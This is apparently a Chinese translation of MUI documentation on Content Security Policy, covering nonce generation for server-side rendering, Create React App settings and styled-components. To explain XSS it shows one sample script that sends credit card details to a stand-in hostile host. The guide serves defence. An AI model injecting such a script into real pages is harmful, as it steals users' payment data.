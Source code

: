 # 内容安全策略（CSP）

<p class="description">本节介绍了建立 CSP 的详细信息。</p>

## 什么是 CSP，为什么它有用？

CSP 通过要求开发人员检索其资产的来源并将其列入白名单来缓解跨站点脚本（XSS）攻击。 此列表作为服务器的头部（heade）返回。 例如，假设您有一个托管在 `https://example.com` 的网站 CSP 头部 `default-src：'self';` 将仅加载 `https://example.com/*` 的所有资源，并否认所有其他人。 如果您的网站的某个部分容易受到 XSS 的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

此漏洞允许攻击者执行任何操作。 但是，若使用安全的 CSP 头部，浏览器将不会加载此脚本。

您可以在 [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) 阅读有关 CSP 的更多信息。

## 如何实现CSP？

### 服务端渲染（SSR）

如果将CSP与MUI（和 emotion）一起使用，你需要使用一个 随机数. 随机数是一个随机生成的字符串，只使用一次，因此您需要添加服务器中间件以在每个请求上生成一个。

CSP nonce 是一个 Base 64 编码的字符串。 你可以生成这样一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

你必须使用 UUID 4，因为它可以生成一个 **不可预测** 的字符串。 接下来您可以将此随机数应用于 CSP 头部。 应用了随机数时，CSP 头部可能看起来像这样：

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src: 'self' 'nonce-${nonce}';`,
);
```

你应该在服务端的 `<style>` 标签中传递一次性加密数字（nonce）。

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{
    __html: sheets.toString(),
  }}
/>
```

然后，您必须将此随机数传递给 JSS ，以便将其添加到后续 `<style>` 标记中。

> Note, if you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from emotion and add the `prepend: true` option.

```js
<head>
  <meta property="csp-nonce" content="this-is-a-nonce-123" />
</head>
```

### Create React App (CRA)

根据 [Create React App 文档](https://create-react-app.dev/docs/advanced-configuration/)，Create React App 会在生产构建过程中默认将运行时脚本动态嵌入到 index.html 中。 这需要在你的每次部署时都要在 CSP 中设置一个新的哈希值。

要将 CSP 与 Create React App 的项目一起使用，你需要在用于生产构建的 `.env` 文件中设置 `INLINE_RUNTIME_CHUNK=false`。 这将像往常一样导入运行时脚本，而不是直接嵌入它，就可以避免在每次部署时都需要设置一个新的哈希值的情况了。

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
